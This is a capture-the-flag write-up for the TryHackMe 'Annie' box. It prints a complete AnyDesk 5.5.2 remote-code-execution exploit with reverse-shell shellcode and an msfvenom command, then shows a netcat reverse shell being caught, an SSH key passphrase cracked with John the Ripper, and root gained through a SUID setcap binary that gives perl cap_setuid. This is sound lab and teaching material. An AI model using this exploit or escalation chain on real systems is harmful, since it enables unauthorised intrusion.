


# Annie
**Date:** August 23rd 2022

**Author:** j.info

**Link:** [**Annie**](https://tryhackme.com/room/annie) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- What is user.txt?
- What is root.txt?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 -p- $ip`

```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp open  ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
36071/tcp open  unknown
```

<br>

# AnyDesk Digging

Seeing the ssl-cert value for port 7070 as **AnyDesk Client** led me to search around on that and find that there is usually a UDP port open for that at 50001. An nmap scan:

`sudo nmap -sU -p 50001 $ip`

```bash
PORT      STATE         SERVICE VERSION
50001/udp open|filtered unknown
```

I run a **searchsploit** to see if there are any vulnerabilities and see one with RCE:

`searchsploit anydesk`

```bash
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
AnyDesk 2.5.0 - Unquoted Service Path Privilege Escalation            | windows/local/40410.txt
AnyDesk 5.4.0 - Unquoted Service Path                                 | windows/local/47883.txt
AnyDesk 5.5.2 - Remote Code Execution                                 | linux/remote/49613.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I pull it over and open it up to look at the code:

`searchsploit -m 49613`

```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '192.168.x.x'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xcb\x46\x40"
shellcode += b"\x6c\xed\xa4\xe0\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xa1\x6f\x18\xf5\x87"
shellcode += b"\xa6\xbf\x91\xca\x18\x4f\x69\xa5\x33\xa8\x42"
shellcode += b"\xc9\x46\x41\xd1\x2d\x0c\x96\xf8\x9a\x0e\xc9"
shellcode += b"\x8a\x87\xb4\xba\x91\xe1\x1e\x4f\x69\x87\xa7"
shellcode += b"\xbe\xb3\x34\x88\x2a\x4d\xb5\xab\xe5\x8e\x3d"
shellcode += b"\x2c\x7b\x34\x74\xec\x5b\xd4\xa9\x2f\x2e\x43"
shellcode += b"\x9e\xcc\xe0\xa8\x83\xcf\xa7\x3e\xba\xec\x69"
shellcode += b"\x1d\xc4\x43\x40\x6c\xed\xa4\xe0\xfb"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

I change the ip variable to the target system and also run msfvenom again with the command provided as a comment using my own IP to catch the reverse shell at.

I start up a listener on my system and then run the exploit.

`python3 49613.py`

```bash
sending payload ...
Traceback (most recent call last):
  File "/home/kali/work/49613.py", line 46, in <module>
    p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
TypeError: can only concatenate str (not "bytes") to str
```

Well darn. I get stuck for a little bit here and eventually try and run it with python2 which for whatever reason works. That was frustrating.

<br>

## System Access

`python2 49613.py`

```bash
sending payload ...
reverse shell should connect within 5 seconds
```

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.191.127] 46050
id
uid=1000(annie) gid=1000(annie) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
hostname
desktop
```

Alright we're on the system! Now let's get a useable shell.

```bash
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                      
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

annie@desktop:/home/annie$ export TERM=xterm-256color
annie@desktop:/home/annie$
```

<br>

## System Enumeration

The **user.txt** flag is waiting for us in our home directory:

`wc -c /home/annie/user.txt`

```bash
23 /home/annie/user.txt
```

`sudo -l` requires a password.

Nothing interesting capabilities wise.

Looking in annie's .ssh directory shows an already created ssh key which I copy to my own system and try and ssh back over.

`ssh -i id_rsa annie@$ip`

```bash
Enter passphrase for key 'id_rsa': 
```

I try and crack it with **John the Ripper**:

`ssh2john id_rsa > hash`

`john hash --wordlist=rockyou.txt`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>         (id_rsa)     
1g 0:00:00:31 DONE (2022-08-23 22:22) 0.03140g/s 639.1p/s 639.1c/s 639.1C/s chinos..MELANIE
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And ssh back over with `ssh -i id_rsa annie@$ip`:

```bash
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-173-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat May 14 16:03:44 2022 from 192.168.58.128
annie@desktop:~$
```

I try `sudo -l` again just in case but the password we just cracked doesn't work.

I forgot to check for SUID files earlier and do that now:

`find / -perm /4000 2>/dev/null`

One sticks out as out of the ordinary:

```bash
/sbin/setcap
```

`ls -al /sbin/setcap`

```bash
-rwsr-xr-x 1 root root 10232 Nov 16  2017 /sbin/setcap
```

Alright, we can work with that! We should be able to set setuid capabilities on something and get root that way.

<br>

## Root

I check a few programs before settling on perl, and looking it up on GTFO bins shows how to exploit it once I've set the capability on it.

I set cap_setuid+ep on it and then check to make sure it took with getcap. Then execute the command from GTFOBins and end up with root!

```bash
annie@desktop:/tmp$ which perl
/usr/bin/perl
annie@desktop:/tmp$ /sbin/setcap cap_setuid+ep /usr/bin/perl
annie@desktop:/tmp$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
annie@desktop:/tmp$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# hostname
desktop
```

And the root flag:

`wc -c /root/root.txt`

```bash
26 /root/root.txt
```

One really cool thing the author did here that I want to point out is they bought a 1 month voucher for THM and put it in a file in the root directory for the person who got first blood on the box (or whoever redeems it first). Not only do you put together a fun box for us to use but you gave away a voucher as well.

Hats off to you good sir, that's awesome of you to do.

`cat /root/THM-Voucher.txt`

```
Congratz to the blood-taker!
Prize is a 1 month THM subscription voucher:
Q9oimd
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Finding AnyDesk running and exploiting a vulnerability to get an initial foothold
- Finding a password protected id_rsa key that we use **ssh2john** on  and then crack it with **John the Ripper**
- Finding that **/sbin/setcap** has SUID set allowing us to set capabilities on any file, which we do to the perl executable and use it to escalate to root

<br>

Many thanks to:
- [**TobjasR**](https://tryhackme.com/p/TobjasR) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)